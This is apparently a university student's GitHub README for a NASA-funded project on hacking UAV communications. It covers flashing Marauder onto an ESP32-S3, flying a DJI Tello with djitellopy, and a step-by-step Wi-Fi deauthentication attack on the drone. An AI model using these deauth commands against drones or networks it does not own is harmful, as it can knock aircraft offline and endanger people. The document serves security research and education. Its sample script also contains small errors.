 # UAVHacking

A NASA-funded project conducted through GVSU College of Computing. 
 
Cybersecurity research on UAV communications. Conduct reconnaissance. Exploit vulnerabilities. Take control.

---

By Brendan Lewis - Grand Valley State University BS. Cybersecurity

---
## 1. Abstract

This project will focus on researching and exploiting vulnerabilities in UAV communications. Preliminary research shows that UAV's are being used for personal and military applications. An increase in the number of UAV's increase the attack surface for drone communication. Hackers can passively eavesdrop on Air to Ground (A2G) and Ground to Air (G2A) communications, and they can uncover important telemetry data that can be used to locate and attack the UAV. Furthermore, an active attack, such as GPS spoofing, can mislead the drones sensors and cause it to crash or fly in an unrestricted area.

By conducting this research we hope to investigate _why_ drone communication has such a large attack surface, and exploit these vulnerabilities in real time using a DJI Tello drone and an ESP32-S3 running Marauder. 


## 2. Requirements

### Hardware

- DJI Tello drone
- ESP32-S3
- MacOS, Windows, or Linux machine

### Software

- FZEEFlasher
- Marauder
- Djitellopy
- Wireshark

---
## 3. Getting Started

### Connecting to the DJI Tello for the first time.

1. Download the DJI Tello mobile application.
2. Press the power button on the side of the drone.
3. Connect to the Tello-xxxxx network from your devices Wi-Fi settings menu.
4. Open the Tello App.

### Flashing Marauder on the ESP32-S3

There are a few ways to do this, but I've found FZEEFlasher is the easiest and most convenient. This guide follows only MacOS for now. 

1. Plug in your ESP32-S3 to your computer via USB.

 Note: You must use the USB Type-C **USB & OTG** port.

2. To verify your device is connected fun the command:

```bash
lsusb
```

 Note: This should be something like /dev/cu.usbmodemxxxx on MacOS.

3. Open FZEEFlasher: https://fzeeflasher.com/index.html

- Connect → select ESP32-S3

- Hardware: ESP32-S3 Multimedia Board

- Version: 1.8.3

- Select: Marauder → Flash

4. Once the flashing has completed. Unplug the ESP32-S3 for 5 seconds and plug into the USB Type-C **USB to Serial** port.

5. Open the serial terminal
   
6. Using FZEEFlasher, connect to the serial port.

Note: Should be something like /dev/cu.usbmodemxxxxxxxxxxxx. Different from the first time.

9. Interact with Marauder and verify its working.

```bash
scanap
```

This will show all available networks within range of the device. 

---
## 4. Remotely Controling the DJI Tello 

To remotely control the DJI Tello, we will use the DJI Tello SDK. [Tello SDK](https://dl-cdn.ryzerobotics.com/downloads/tello/20180910/Tello%20SDK%20Documentation%20EN_1.3.pdf)

1. Open your favorite IDE, in this example Virtual Studio Code.

2. In the terminal, clone the djitellopy repository.

```bash
git clone https://github.com/damiafuentes/DJITelloPy.git
cd DJITelloPy
pip install -e .
```

3. Install the requirements.

```bash
pip install -r requirements.txt
```

4. Create a new .py file. _Tello_testing.py_

```python

from djitellpy import tello
import time

drone = tello.Tello()
drone.connect()

print(f"Battery: {tello.get_battery()}%")

drone.takeoff()
time.sleep(2)

drone.move_forward(50)
time.sleep(2)

drone.move_backward(50)
time.sleep(2)

drone.land()
time.sleep(2)

drone.disconnect()
```

5. Run the script.

```bash
python3 tello_testing.py
```

---

## 5. Using the ESP32-S3 to Deauthenticate the Tello's Wi-Fi connection

1. Connect your ESP32-S3 to the serial terminal.
    (Optional) - Run 'help' to see a list of commands

2. Scan the available Access Points
```
scanap
```
Note: Use 'stopscan' to stop any currently running WiFi/Bluetooth scan/attack.

3. Identify the index of the drone and add it to the list.

```
select -a <index>
```

4. Confirm the correct index was selected

```
list -a
```

5. Deauthenticate the AP's in the list (only intended for educational purposes)

```
attack -t deauth
```

6. Stop the attack

```
stopscan
```

---

## 6. Using the ESP32-S3 for a Passive Attack

Ongoing...


---

## 7. Using the ESP32-S3 for an Active Attack
---

## Disclaimer

This project is for educational and research purposes only.
Do not use these techniques against devices you do not own or without explicit authorization.

---

## References

- [Tengu Marauder](https://github.com/Lexicon121/Tengu-Marauder/blob/main/Guides/Workshop.md)
- [Djitellopy](https://github.com/damiafuentes/DJITelloPy)
- [Tello SDK](https://dl-cdn.ryzerobotics.com/downloads/tello/20180910/Tello%20SDK%20Documentation%20EN_1.3.pdf)
- [ESP32 Marauder](https://github.com/justcallmekoko/ESP32Marauder)
- [FZEEFlasher](https://fzeeflasher.com/index.html)
- [Espressif ESP32-S3 Documentation](https://docs.espressif.com/projects/esptool/en/latest/esp32s3/installation.html)
- [Espressif Serical Connection](https://docs.espressif.com/projects/esp-idf/en/stable/esp32s3/get-started/establish-serial-connection.html)
  
